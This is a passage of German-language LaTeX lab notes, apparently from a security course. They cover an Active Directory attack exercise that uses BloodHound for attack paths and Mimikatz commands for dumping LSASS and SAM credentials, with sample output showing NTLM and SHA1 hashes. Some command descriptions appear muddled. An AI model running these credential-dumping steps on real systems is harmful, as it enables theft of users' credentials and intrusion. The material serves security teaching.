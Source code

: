 Daten können nun im Bloodhound GUI anschauen
\begin{itemize}
    \item zeigt alle Abhängigkeiten im AD auf
    \item \textbf{man kann angeben was man schon owned, dann werden die möglichen Angriffe aufgezeigt und auf was man los soll}\\
\end{itemize}

\subsection{Step 4: Credential Dumping on Windows 10 Client}
Wenn Sie über lokale administrative Rechte auf einem Windows-Rechner verfügen, können Sie dies missbrauchen, um verschiedene Formen von Anmeldeinformationen abzurufen, die auf dem jeweiligen Rechner gespeichert sind. Dazu gehören Anmeldedaten lokaler Benutzerkonten (die in der SAM-Datei gespeichert sind) sowie vorübergehend zwischengespeicherte Anmeldedaten aktuell angemeldeter Benutzer (die im Speicher des lsass-Prozesses gehalten werden).\\

\begin{itemize}
    \item Run as Admin mit dem neu selbst gemachten User aus der Aufgabe von vorhin
    \item privilege::debug - um Lsass Credentials zu droppen
    \item log my\_log.txt - logging aktivieren
    \item sekurlsa::logonpasswords - \textbf{effektive Credentials auslesen}\\
\end{itemize}

\begin{lstlisting}[language=bash]
    Authentication Id : 0 ; 6453349 (00000000:00627865)   
    Session           : Interactive from 2
    User Name         : backdoor
    Domain            : Client1
    Logon Server      : Client1
    Logon Time        : 11/12/2021 4:46:23 PM
    SID               : S-1-5-21-1681067654-3552921923-1543340101-1005
        msv :
         [00000003] Primary
         * Username : backdoor
         * Domain   : Client1
         * NTLM     : a9fdfa038c4b75ebc76dc855dd74f0da
         * SHA1     : 9400ae28448e1364174dde269b2cce1bca9d7ee8
    [CUT]
\end{lstlisting}

\begin{itemize}
    \item token::elevate - \textbf{Credentials auslesen des lokalen SAM}
    \item lsadump::elevate - \textbf{Permissions elevaten}
    \begin{itemize}
        \item process token: token für user auf mascine
        \item thread token: token für NT Auth/System, Maschine
    \end{itemize}
    \item lsadump::sam - \textbf{SAM Database mit NTLM und so dumpen}
\end{itemize}

